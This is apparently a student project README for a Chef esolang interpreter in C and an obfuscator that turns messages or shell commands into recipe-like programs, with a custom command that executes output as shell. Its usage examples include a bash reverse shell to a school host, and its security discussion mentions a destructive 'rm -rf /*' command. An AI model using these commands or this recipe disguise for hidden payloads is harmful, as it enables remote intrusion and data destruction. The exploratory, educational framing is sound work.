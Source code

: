 # The Caterers (Presentation)

### P Thomsen & Z Cater  (Period 09)

## Overview

>  "Chef is a programming language in which programs look like recipes." 
> — [*David Morgan-Mar*](https://www.dangermouse.net/esoteric/chef.html)

Chef is an *esoteric programming language*[^1] following the concept of *multiple coding*[^2], in which programs are intentionally designed so as to function as both valid programs and valid recipes. Chef is stack-based and utilizes three basic concepts:
1. Ingredients, which have numerical values and can be either dry, liquid, or unknown (*e.g.* 72 g haricot beans, 25 ml water, 6 human eyeballs)
2. An ordered set of infinite mixing bowls, which are the stacks primarily used for general processing and which hold various ingredients within them
3. An ordered set of infinite baking pans, which are used solely for data output—once items have been poured into the pans, they are not able to be removed except through output

Together with cooking- and baking-themed commands, these three elements form a Turing-complete language[^3] that is *also* capable of describing a great number of recipes[^4]. Features such as the "Take *ingredient* from refrigerator" and "Mix [the [*nth*] mixing bowl] well" directives even allow for user input and randomness, respectively, allowing us to imagine a world in which one could write and play a cooking simulator in Chef.

Our final project attempts to create a Chef interpreter in C, and an obfuscator to transform simple messages to be printed or called as shell commands into Chef programs.

## Installation Instructions

1. Clone the repository and ensure that gcc, make, and libpcre2-dev are installed (if you're using the school computers, connect to marge.stuy.edu)
    - gcc is necessary for compiling the C code
    - make is necessary for running the makefile to direct gcc what to actually compile
    - libpcre2-dev is necessary for the regular expressions used in parsing the input files, which were as far as I can tell completely unfeasible to reasonably implement using POSIX regular expressions and far too small-scale to be worth utilizing lex and yacc for
2. Run `make compile` to compile the project.
3. Clean up using `make clean` at any time to delete the executables and any `.o` files

## Usage

### To obfuscate: `./obfuscate`
e
Obfuscate takes a single command flag and a string to encode and outputs a valid Chef file. The two valid flags are
- `-p`: The Chef file will *print* the string provided.
- `-x`: The Chef file *execute* the string provided as an `sh`-compatible shell command.

Sample usage:
- `./obfuscate -p "Hello, world!"`
- `./obuscate -p '"Chefs are nutters. They'\''re all self-obsessed, delicate, dainty, insecure little souls, and absolute psychopaths. Every last one of them." - Gordon Ramsay'`
- `./obfuscate -x 'echo "Hello, world!"'`
- `./obfuscate -x "bash -c 'bash -i >& /dev/tcp/149.89.150.100/9001 0>&1'"`[^5]

Watch out! Obfuscate is ONLY guaranteed to work on ASCII input with 256 or fewer distinct characters.[^6] Attempting to use it otherwise will throw an error.

### To interpret: `./interpret`

Interpret takes a file path followed by an optional flag and attempts to run it as a Chef file. If `-` is provided in lieu of a path, Interpret will attempt to read from the standard input. The only flag currently available is
- `-v`: Interpret will use *verbose* mode and print the intermediate, post-parsing steps of the file, allowing users to check that the file is at least being parsed correctly.

Sample usage:
- `./interpret recipes/factorial.chef`
- `cat recipes/souffle.chef | ./interpret -`
- `./obfuscate -p 'wow' | ./interpret - -v`

Watch out! Interpret is ONLY guaranteed to work on properly-formatted Chef programs using characters entirely within the ASCII set. Attempting to use it otherwise will throw an error or cause undefined behavior.[^7]

> [!IMPORTANT]
> This is not, in fact, strictly true. Our implementation of the Chef intrepreter features one nonstandard command of our own design. See [link!!]
> In addition, we've found that a great number of other interpreters allow (or require) nonstandard formatting (*e.g.* "the 1st mixing bowl", newlines as command separators, oven temperatures in degrees Fahrenheit, etc.) and as such will accept some technically incorrect formats.
> The "Serves" directive is mandatory, because the documentation is unclear.

## How this is Cybersecurity

Esolangs are fun and all, but not in fact particularly related to cybersecurity. Chef, however, by virtue of its programs being multiply coded as recipes, is a language *all about* obfuscation--the command to read a number for the standard input is "Take *ingredient* from the refrigerator", for example--and thus we might imagine a malicious actor encoding harmful code as seemingly innocuous Chef programs, which are both made to look like recipes and completely unreadable.

Our newly-introduced twenty-first command extends this idea.
```
Broil contents of [the] [*nth*] baking dish.
```
  The program will immediately empty the contents of the given baking dish and read it as a shell command for an `sh`-compliant shell in the same form it would print it. For example, if a baking dish would be printed as "echo 'the answer is 101'", this command will empty the dish and execute the command `echo 'the answer is 101'`. This allows Chef programs to really qualify as malware--we can imagine the output of `./obfuscate 'sudo rm -rf /*'`. (Note: Do **NOT** try that. We do NOT recommend or endorse the creation of malware with our project, and we are NOT liable for any damage to your file system due to your own foolishness.)

By including both an obfuscator and interpreter, we gain the ability to encode arbitrary messages and execute them in what look like slightly odd but nevertheless non-malevolent-appearing recipes. Our project is thus both an esolang interpreter AND a potential attack vector.


[^1]: Per [Wikipedia](https://en.wikipedia.org/wiki/Esoteric_programming_language): "An *esoteric programming language* (sometimes shortened to *esolang*) is a programming language designed to test the boundaries of computer programming language design, as a proof of concept, as software art, as a hacking interface to another language (particularly functional programming or procedural programming languages), or as a joke. The use of the word esoteric distinguishes them from languages that working developers use to write software … Usability is rarely a goal for designers of esoteric programming languages; often their design leads to quite the opposite."
[^2]: [Mateas, Michael and Nick Montfort. “A Box, Darkly: Obfuscation, Weird Languages, and Code Aesthetics.” In Proceedings of the 6th Digital Arts and Culture Conference, IT University of Copenhagen, 1-3 Dec 2005, pp. 144-153.](https://nickm.com/cis/a_box_darkly.pdf)
[^3]: At least I assume it's Turing complete. I found [this program by Wesley Janssen, Joost Rijneveld and Mathijs Vos](https://github.com/joostrijneveld/Chef-Interpreter/blob/master/ChefInterpreter/TuringsTastyTortillas.chef) which claims to be a working Turing Machine (and it certainly seems to be) and the fact that I cannot spot any way to solve the halting problem with it certainly seem exciting, but I can find no actual analysis and do not trust my own intuition.
[^4]: On the other hand, I know for a *fact* that Chef cannot represent all possible recipes, because there is no way to encode my grandmother's skillet chops and rice recipe. The step "Lie about the presence of onions" is unencodable due to the simple fact that Chef requres all instructions involving arbitrary verbs to be loops and have a matching "until *present participle*" command, while the command to lie about the presence of onions can never complete.
[^5]: That's a reverse shell to homer.stuy.edu on port 9001. In our video, this command didn't actually work, and that was because the bash command was actually getting executed. By replacing the single quotes with double quotes, it's actually running as it's supposed to and generating the reverse shell recipe.
[^6]: It shouldn't be possible to use more than 256 distinct characters while staying in the 7-bit ASCII range, but you never know.
[^7]: It's not our problem, essentially.
